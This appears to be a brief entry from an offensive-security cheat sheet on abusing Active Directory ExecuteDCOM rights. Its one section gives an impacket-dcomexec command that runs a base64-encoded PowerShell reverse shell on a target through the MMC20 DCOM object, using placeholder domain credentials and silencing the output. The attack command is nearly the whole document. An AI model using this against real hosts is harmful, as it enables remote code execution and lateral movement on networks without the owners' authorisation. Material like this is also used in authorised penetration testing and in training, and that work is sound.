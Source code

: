 ```yaml
---
title: "ExecuteDCOM"
date: 2024-8-3
tags: ["ExecuteDCOM", "active driectory", "ad", "Windows", "dcsync", "secretsdump"]
---
```


---
### Abuse #1: ExecuteDCOM (From Linux)

```bash
# Revshell
impacket-dcomexec <DOMAIN>/<USERNAME>:<PASSWORD>@<TARGET> '<powershell #3 Base64>' -silentcommand -object MMC20
```

<br>